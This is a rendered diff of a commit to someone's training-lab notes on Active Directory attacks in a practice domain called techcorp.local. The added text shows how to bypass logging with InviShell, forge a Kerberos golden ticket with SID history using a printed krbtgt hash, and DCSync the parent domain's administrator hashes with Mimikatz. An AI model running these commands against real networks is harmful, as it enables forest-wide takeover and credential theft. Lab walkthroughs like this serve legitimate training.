

Before and after one commit to brianyaucy/PA-CRTEBootcamp, a Markdown page: l21-forestkrbtgt.md, the part around the change printed below. Shown: that part at 91% size. Drawn GitHub-style; pictures changed too: images/676d2407dcd180f94a4d785c96e1e8866fbd8846a68a39e108a25b4fadfd4569.png (added); blank space fills up the shorter version.

````diff
--- a/l21-forestkrbtgt.md
+++ b/l21-forestkrbtgt.md
@@ -16,7 +16,7 @@ Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or
 
 ## Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, techcorp.local using the krbtgt hash of us.techcorp.local
 
-Refer to [Hands-on 14: Golden Tickets](l14-GoldenTicket.md), here is the krbtgt hash:
+Referring to [Hands-on 14: Golden Tickets](l14-GoldenTicket.md), here is the krbtgt hash:
 
 ```
 RID  : 000001f6 (502)
@@ -24,3 +24,34 @@ User : krbtgt
 LM   :
 NTLM : b0975ae49f441adc6b024ad238935af5
 ```
+
+<br/>
+
+First get an InviShell:
+
+```
+C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
+```
+
+<br/>
+
+Use Mimikatz to set SID History for the `Domain Controllers Group` for `us.techcorp.local`:
+
+```
+. C:\AD\Tools\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"kerberos::golden /user:us-dc$ /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /groups:516 /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /ptt"'
+```
+
+![picture 34](images/676d2407dcd180f94a4d785c96e1e8866fbd8846a68a39e108a25b4fadfd4569.png)
+
+<br/>
+
+Perform a DCSync to dump the hashes of `techcorp\administrator`:
+
+```
+C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
+```
+
+```
+. C:\AD\Tools\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\administrator /domain:techcorp.local"'
+```
+
````
Also changed, not shown: other parts of l21-forestkrbtgt.md (+23 -0 lines), images/02fb9d8bc9998f8ec6c2bba6ff3bd740e0ab38a3cc64fc9a36497d0709f61719.png (added), images/064b5519347cc786d88fe8a5b75a28aa8f0805c827233236412aeeb3a64ca719.png (added).
